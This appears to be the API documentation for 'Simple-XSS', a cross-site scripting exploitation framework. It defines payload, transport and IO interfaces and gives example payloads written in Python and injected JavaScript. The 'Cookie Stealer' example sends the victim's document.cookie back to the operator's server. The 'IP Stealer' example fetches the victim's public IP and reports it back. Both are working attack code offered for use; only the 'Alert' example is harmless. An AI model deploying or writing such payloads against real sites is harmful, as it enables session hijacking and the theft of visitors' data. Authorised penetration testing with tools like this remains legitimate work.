 # Simple-XSS Payloads

See [payload.](VOCABULARY.md)

## API

### Payload-API

#### Environment

Environment - actual information about running process:

- url - current transport server address (tunneled or not)
- settings - current Simple-XSS settings
- arguments - current Simple-XSS arguments

```python
class Environment:
    url: str = None
    settings: SettingsSchema = None
    arguments: ArgumentsSchema = None
```

#### Dependencies

Payloads have dependencies:

- [transport API](#Transport-API)
- [io API](#IO-API)
- [environment](#Environment)

Dependencies are accessible in payload after binding:

```python
from simplexss.api import BasePayload


class Payload(BasePayload):
    def bind_dependencies(self, **deps):
        self.transport = deps.get('transport')
        self.io = deps.get('io')
        self.environment = deps.get('env')
```

Payload methods that called at a specific time:

- ```def bind_dependencies(self, **deps)``` - called when process is launching to bind dependencies.

- ```def bind_endpoints(self)``` - called when process is launching to bind event handlers (endpoints) to transport.

### Transport-API

See [transport.](VOCABULARY.md)

Transport API is provided for the payload to communicate with client. Every transport should have single Python-side API:

```python
class BaseClient: # depends on Transport Service, but always should inherit Base
    origin: str


class BaseEvent: # depends on Transport Service, but always should inherit Base
    name: str
    data: dict = None


type Endpoint = Callable[[BaseClient, BaseEvent], Coroutine | BaseEvent | any | None] # event handler type


class BaseTransportAPI(ABC):
    @abstractmethod
    def bind_endpoint(self, event: str, endpoint: Endpoint): ... # add event handler

    @abstractmethod
    async def send_event(self, client: BaseClient, event: BaseEvent): ... # send event
```

### Transport-JS-API

Every transport should have single JS-side API:

```js 
const addListener = (event: string, callback) => ... // add event handler

const sendEvent = async (event: string, data: object = {}) => ... // send event
```

Example callback:
```js
const callback = (data: object) => ... // User event handler 
```
### IO-API

An I/O manager is provided for the payloads and hooks to handle IO operations. It has interface:

```python
class BaseIOManagerAPI(ABC):
    @abstractmethod
    async def print(self, *args, color: Color | str = Color.DEFAULT, sep: str = ' ', end: str = '\n'): ...

    @abstractmethod
    async def input(self, prompt: str, /, *, color: Color | str = Color.DEFAULT): ...
```

## Examples

### IP Stealer

```python
# payload.py

from simplexss.api import (
    BasePayload,
    BaseClient,
    BaseEvent,
    render
)


class Payload(BasePayload):
    AUTHOR = 'crazyproger1'
    DESCRIPTION = 'Steals IP.'
    NAME = 'IP Stealer'
    VERSION = '0.0.1'

    async def on_ip(self, client: BaseClient, event: BaseEvent):
        await self.io.print(f'IP: {event.data.get("ip", "unknown")}')

    async def on_connection(self, client: BaseClient, event: BaseEvent):
        await self.io.print(f'Connection established: {client.origin}')

    def bind_endpoints(self):
        self.transport.bind_endpoint('connection', self.on_connection)
        self.transport.bind_endpoint('ip', self.on_ip)

    @property
    def payload(self) -> str:
        return render(self.directory, 'payload.js', )
```

```js
// payload.js

fetch('https://api.ipify.org?format=json')
    .then(response => response.json())
    .then(data => sendEvent('ip', {'ip': data.ip}));
```

### Cookie Stealer

```python
# payload.py

from simplexss.api import (
    BasePayload,
    BaseClient,
    BaseEvent,
    render
)


class Payload(BasePayload):
    AUTHOR = 'crazyproger1'
    DESCRIPTION = 'Steals cookies.'
    NAME = 'Cookie Stealer'
    VERSION = '0.0.1'

    async def on_cookies(self, client: BaseClient, event: BaseEvent):
        await self.io.print(f'Cookies: {event.data.get("cookies")}')

    async def on_connection(self, client: BaseClient, event: BaseEvent):
        await self.io.print(f'Connection established: {client.origin}')

    def bind_endpoints(self):
        self.transport.bind_endpoint('connection', self.on_connection)
        self.transport.bind_endpoint('cookies', self.on_cookies)

    @property
    def payload(self) -> str:
        return render(self.directory, 'payload.js', )
```

```js
// payload.js

sendEvent('cookies', {'cookies': document.cookie})
```

### Alert

```python
# payload.py

from simplexss.api import (
    BasePayload,
    BaseClient,
    BaseEvent,
    render
)


class Payload(BasePayload):
    AUTHOR = 'crazyproger1'
    DESCRIPTION = 'Alerts your message when connection established.'
    NAME = 'Alert'
    VERSION = '0.0.1'

    async def on_connection(self, client: BaseClient, event: BaseEvent):
        await self.io.print(f'Connection established: {client.origin}')

        text = await self.io.input('Text')

        return {
            'name': 'alert',
            'data': {
                'text': text
            }
        }

    def bind_endpoints(self):
        self.transport.bind_endpoint('connection', self.on_connection)

    @property
    def payload(self) -> str:
        return render(self.directory, 'payload.js', )
```

```js
// payload.js

addListener('alert', (data) => alert(data.text))
```